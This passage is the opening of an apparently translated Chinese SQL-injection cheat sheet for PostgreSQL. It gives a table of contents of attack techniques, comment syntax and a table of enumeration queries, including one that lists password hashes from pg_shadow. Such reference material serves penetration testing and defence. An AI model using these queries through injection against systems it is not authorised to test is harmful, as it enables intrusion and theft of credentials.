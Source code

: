 # PostgreSQL 注入

> PostgreSQL SQL 注入是指攻击者利用未正确清理的用户输入，在 PostgreSQL 数据库中执行未经授权的 SQL 命令的安全漏洞。

## 概述

* [PostgreSQL 注释](#postgresql-注释)
* [PostgreSQL 枚举](#postgresql-枚举)
* [PostgreSQL 方法论](#postgresql-方法论)
* [PostgreSQL 基于错误的注入](#postgresql-基于错误的注入)
    * [PostgreSQL XML 辅助工具](#postgresql-xml辅助工具)
* [PostgreSQL 盲注](#postgresql-盲注)
    * [PostgreSQL 带有子字符串等价的盲注](#postgresql-带有子字符串等价的盲注)
* [PostgreSQL 基于时间的注入](#postgresql-基于时间的注入)
* [PostgreSQL 外部连接注入](#postgresql-外部连接注入)
* [PostgreSQL 堆叠查询注入](#postgresql-堆叠查询注入)
* [PostgreSQL 文件操作](#postgresql-文件操作)
    * [PostgreSQL 文件读取](#postgresql-文件读取)
    * [PostgreSQL 文件写入](#postgresql-文件写入)
* [PostgreSQL 命令执行](#postgresql-命令执行)
    * [使用 COPY TO/FROM PROGRAM](#使用-copy-tofrom-program)
    * [使用 libc.so.6](#使用-libcso6)
* [PostgreSQL WAF 绕过](#postgresql-waf绕过)
    * [引号的替代方案](#引号的替代方案)
* [PostgreSQL 权限](#postgresql-权限)
    * [PostgreSQL 列出权限](#postgresql-列出权限)
    * [PostgreSQL 超级用户角色](#postgresql-超级用户角色)
* [参考文献](#参考文献)

## PostgreSQL 注释

| 类型                 | 注释       |
| -------------------- | ---------- |
| 单行注释             | `--`      |
| 多行注释             | `/**/`    |

## PostgreSQL 枚举

| 描述                   | SQL 查询                                |
| ---------------------- | --------------------------------------- |
| 数据库管理系统版本      | `SELECT version()`                      |
| 当前数据库名称         | `SELECT CURRENT_DATABASE()`             |
| 当前数据库模式         | `SELECT CURRENT_SCHEMA()`               |
| 列出 PostgreSQL 用户   | `SELECT usename FROM pg_user`           |
| 列出密码哈希值         | `SELECT usename, passwd FROM pg_shadow` |
| 列出数据库管理员       | `SELECT usename FROM pg_user WHERE usesuper IS TRUE` |
| 当前用户              | `SELECT user;`                          |
| 当前用户              | `SELECT current_user;`                  |
| 当前用户              | `SELECT session_user;`                  |
| 当前用户              | `SELECT usename FROM pg_user;`          |
| 当前用户              | `SELECT getpgusername();`               |
